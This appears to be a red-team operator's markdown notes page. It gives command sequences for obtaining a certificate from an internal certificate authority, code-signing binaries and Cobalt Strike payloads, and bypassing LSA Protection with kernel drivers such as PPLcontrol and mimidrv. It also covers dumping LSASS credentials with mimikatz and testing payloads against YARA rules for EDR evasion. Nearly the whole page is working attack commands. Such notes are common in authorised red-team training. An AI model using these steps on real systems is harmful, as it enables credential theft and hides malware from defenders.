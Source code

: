 Request Certificate
`certreq -new -config [ca] req.inf req.csr`
`certreq -submit -config [ca] req.csr cert.cer`
`certreq -accept cert.cer`

Export to PFX
get certificate ID with `certutil -user -store My`
`certutil -user -exportpfx -privatekey -p [password] My [id] cert.pfx`

Sign Binary (Visual Studio developer prompt)
`signtool sign /f cert.pfx /p [password] /fd SHA256 [binary]`
##### Sign Cobalt Strike Payloads
on attacker,
`keytool -genkey -alias server -keyalg RSA -keysize 2048 -storetype jks -keystore keystore.jks -dname "[subject]"`
`keytool -certreq -alias server -keystore keystore.jks -file req.csr`
`cat req.csr`

https://[ca]/certsrv/
Request a certificate → advanced certificate request
paste CSR into box → Submit >
DER encoded → Download certificate chain

`keytool -import -trustcacerts -alias server -file [chain].p7b -keystore keystore.jks`
in profile,
```
code-signer {
	set keystore "keystore.jks";
	set password "[password]";
	set alias "server";
}
```
check "Sign" when generating payloads
## Protected Processes
Protected Processes (PP) vs Protected Processes Light (PPL) aka LSA Protection
- PP can access PP or PPL if signer is equal or greater
- PPL can access PPL if signer is equal or greater
- PPL can never access PP
`ppenum [pid]`
#### Circumventing PPL
options
- userland bypass - change over time
- kernel driver - guaranteed to work
example drivers
- [PPLcontrol](https://github.com/itm4n/PPLcontrol)
- [mimidrv](https://github.com/gentilkiwi/mimikatz/tree/master/mimidrv)

[[#Load Kernel Driver]]
#### Dumping LSASS
`ps`
look for lsass.exe
`unprotect_process [pid]`
confirm with `ppenum [pid]`
`mimikatz [...]`
## Testing EDR Evasion
#### YARA Rules
check file signature: `C:\Tools\protections-artifacts\yara64.exe -s yara\rules\[rule].yar C:\Payloads\[payload]`
check process memory: `C:\Tools\protections-artifacts\yara64.exe -s yara\rules\[rule].yar [pid]`
#### API Hooking
**Create Test Hooks**
`bcdedit -set testsigning on`